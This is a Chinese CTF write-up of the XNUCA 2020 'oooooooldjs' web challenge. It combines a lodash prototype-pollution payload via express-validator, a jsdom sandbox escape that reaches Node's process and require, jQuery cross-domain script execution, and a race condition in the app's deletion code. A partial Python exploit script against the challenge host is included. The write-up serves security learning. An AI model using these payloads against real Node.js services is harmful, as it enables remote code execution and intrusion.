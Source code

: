 categories:
- 比赛
tags:
- wp
- web
- ctf
title: XNUCA_2020_oooooooldjs题解
---
# XNUCA_2020_oooooooldjs题解.md



文章首发于[安全客](https://www.anquanke.com/post/id/221388)



题目描述

>`npm audit` may miss something, be careful of the version of `lodash`. There is prototype pollution in `express-validator`, limited but powerful。



npm audit发现lodash有原型链污染漏洞

```
# Run  npm update lodash --depth 2  to resolve 1 vulnerability
                                                              
  Low             Prototype Pollution                         
                                                              
  Package         lodash                                      
                                                              
  Dependency of   express-validator                           
                                                              
  Path            express-validator > lodash                  
                                                              
  More info       https://npmjs.com/advisories/1523      
```



在https://snyk.io/test/npm/express-validator/2.21.0中查看lodash中出现原型链污染的地方，依次下断点

传入json数据:`{"233":123}`发现：

![image1151](https://raw.githubusercontent.com/Explorersss/photo/master/20201031215650.png)



调用了存在原型链污染的set方法，且[233]不为object的键值，在这里可以触发原型链污染

一波测试后得到原型链污染的payload:`{".\"].__proto__[\"crossDomain":{"1":"2"}}`，但是不能控制原型链污染的值



审计题目代码发现，非常有意思的两个地方

1. 显眼的dangerous
   ![image1432](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220029.png)

2. 这里自己实现了数据库的CURD四种方法

学习了一波后发现第一点可以触发RCE

```javascript
const { JSDOM } = require("jsdom");

new JSDOM(`
<body>
  <script>
    const outerRealmFunctionConstructor = Node.constructor;
    const process = new outerRealmFunctionConstructor("return process")();
    const require = process.mainModule.require;

    // Game over!
    const fs = require('fs');
    console.log(fs.readdirSync('.'));
  </script>
</body>
`, { 
  runScripts: "dangerously" 
});
```



在util.js中定义了唯一会用到jsdom的函数



```javascript
const {
	JSDOM
} = require("jsdom")
const {
	window
} = new JSDOM(``, {
	url: originUrl,
	runScripts: "dangerously"
})
// server side `$` XD
const $ = require('jquery')(window)

const requests = async (url, method) => {
	let result = ""
	try {
		result = await $.ajax({
			url: url,
			type: method,
		})

		console.log(result)
	} catch (err) {
		console.log(err)
		result = {
			data: ""
		}
	}

	return result.data
}
```



jquery的ajax有个特性是如果返回的content-type是text/javascript等代表着js脚本，那么便会执行js，结合上面的jsdom从而RCE，但是在低版本的话确实可以这么做，但是在高版本jquery进行了限制，如果是跨域请求便不会执行脚本

调试jquery代码发现：

![image2617](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220811.jpg)



这里会覆盖我们的content-type，继续调试发现设置crossDomain的逻辑

![image2751](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220938.png)

如果s.crossDomain == null就会进入是否跨域的判断

利用前面的原型链污染从而绕过jquery的跨域限制

还剩下一个问题，我们如何传入自己的url

express开着一个中间件限制了我们url,而且也不让更新url类型的数据

```javascript
const middlewares = [
	// should be
	body('*').trim(),
	body('type').if(body('type').exists()).bail().isIn(['url', 'text'])
	.withMessage("type must be `url` or `text`"),
	body('block').if(body('type').exists()).notEmpty()
	.withMessage("no `block` content").bail()
	.if(body('type').isIn(['url'])).isURL({
		require_tld: false
	})
	.custom((value, {
		req
	}) => new URL(value).host === host)
	.withMessage("invalid url!"),
	(req, res, next) => {
		const errors = validationResult(req)
		if (!errors.isEmpty()) {
			return res.status(400).json({
				errors: errors.array()
			})
		}
		next()
	}
]
```



回到我们刚刚说的第二点有趣的地方，这个简单的数据库并不支持事务功能，也就是说删除type和data并不会同时删除是存在一定的时间差的，相关代码如下

```javascript
D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(()=>{
				this.datas = this.datas.filter((value)=>value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value)=>value.id !== id)
		}
	}
```



在删除了type后，他进行了一个相当耗时的操作：访问url，之后才删除data，又因为这里是一个链式删除，一个接着一个删除，所有type删除完后它可能才删除一个data

于是有：

```python
import requests
challenge = "http://eci-2ze1whgyeh7v30y5j8yh.cloudeci1.ichunqiu.com:8888"
def insertUrl(url):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "url", "block": url}
    result = {}
    while True:
        try:
            result = requests.post(burp0_url, headers=burp0_headers, data=burp0_data).json()
        except Exception as e:
            continue
        return result

def insertData(data):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "text", "block": data}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return r.json()

def setLongLine(length=2000):
    endId=""
    url = "http://localhost:8888/data/fake-uuid"
    count = 0
    while count < length:
        count+=1
        data = insertUrl(url)
        url = "http://localhost:8888/data/"+data["data"]["id"]
        endId = data["data"]["id"]
```